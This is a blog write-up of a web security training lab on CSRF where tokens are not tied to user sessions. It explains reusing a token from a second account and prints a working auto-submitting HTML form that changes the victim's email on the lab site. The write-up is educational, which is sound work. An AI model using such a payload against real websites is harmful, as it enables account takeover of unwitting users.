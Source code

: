 ```yaml
---
layout: post
title:  "CSRF where token is not tied to user session"
date:   2024-10-01 09:39:54 +0530
---
```


## Objective 

<!DOCTYPE html>
<html lang="en">
<body>
    <p>
        This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, 
        but they aren't integrated into the site's session handling system.
    </p>
    <p>
        To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
    </p>
    <p>
        You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
    </p>
    <div class="credentials">
        <p><strong>wiener</strong>: peter</p>
        <p><strong>carlos</strong>: montoya</p>
    </div>
</body>
</html>

## Solution 

We do have two accounts right one is `wiener` and another one is `carlos` and where just like the other labs the `Update Email` is vulnerable to CSRF attack where as mentioned in the lab objective 

Once after updating the email once through UI and again did the same.. Then Intercepted through the burp and sent the request once again.. Unfortunately.. CSRF token is used only once and everytime it resets.. In our case, Applies the same here you can see I faced an error 

![]({{ site.baseurl }}/assets/images/csrf-10.png) 

What else, I logged in as `carlos` and copied the CSRF token.. used it in the following request and it worked !! where I just need a valid CSRF token and it isn't tied to the session 

![]({{ site.baseurl }}/assets/images/csrf-11.png)

Let's generate a CSRF POC, here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8e00b303e188c480c121ab007c004e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="se&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="obAPC9kDWecO5QxpcOohLevTLG11WGi9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Now we can replace the value of `csrf` and put it to the exploit server.. Then deliver the exploit to victim.. That solves a lab 

![]({{ site.baseurl }}/assets/images/csrf-12.png)